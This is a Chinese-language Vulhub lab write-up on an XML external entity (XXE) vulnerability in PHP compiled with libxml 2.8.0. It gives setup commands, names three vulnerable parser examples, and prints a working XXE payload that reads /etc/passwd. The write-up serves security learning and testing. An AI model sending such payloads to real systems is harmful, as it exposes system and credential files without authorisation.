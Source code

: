 # PHP 环境 XML 外部实体注入漏洞（XXE）

## 漏洞描述

libxml 2.9.0 以后，默认不解析外部实体，导致 XXE 漏洞逐渐消亡。为了演示 PHP 环境下的 XXE 漏洞，本例会将 libxml 2.8.0 版本编译进 PHP 中。PHP 版本并不影响 XXE 利用。

## 环境搭建

Vulhub 执行如下命令启动环境（PHP 7.0.30，libxml 2.8.0）：

```
docker compose up -d
```

环境启动后，访问 `http://your-ip:8080/index.php` 即可看到 phpinfo。

## 漏洞复现

Web 目录为 `./www`，其中包含 4 个文件：

```bash
$ tree .
.
├── dom.php # 示例：使用DOMDocument解析body
├── index.php
├── SimpleXMLElement.php # 示例：使用SimpleXMLElement类解析body
└── simplexml_load_string.php # 示例：使用simplexml_load_string函数解析body
```

`dom.php`、`SimpleXMLElement.php`、`simplexml_load_string.php` 均可触发 XXE 漏洞，具体输出点请阅读这三个文件的代码。

Simple XXE Payload：

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE xxe [
<!ELEMENT name ANY >
<!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<root>
<name>&xxe;</name>
</root>
```

![](images/PHP%20环境%20XML外部实体注入漏洞（XXE）/image-20240529111116223.png)
